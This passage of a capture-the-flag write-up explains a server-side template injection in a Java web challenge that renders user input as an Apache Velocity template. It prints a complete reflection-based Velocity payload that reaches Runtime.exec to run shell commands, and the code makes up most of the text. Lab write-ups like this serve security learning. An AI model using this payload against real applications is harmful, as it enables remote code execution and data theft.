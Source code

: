 This function reads the index.html file and replaces the TEXT string with user input. It is just a header that is displayed to the given class fire `<h2 class="fire">TEXT</h2>`. User input is used as a velocity template, as input is not sanitized, this is screaming server-side template injection.

I could use `#parse()` to load any file but the name of the flag file is randomized in the entrypoint.sh `mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt`. 

After some digging, I found the following template injection [Apache Velocity Server-Side Template Injection](https://iwconnect.com/apache-velocity-server-side-template-injection/). 
```velocity

#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("ls -ls /"))
#set($null=$process.waitFor() )
#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())
#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
```

Using this exploit I was able to get remote code execution and we can get the file listing.
![Branching](/assets/CTFs/HTB-try-out/Labyrinth-Linguist1.png)
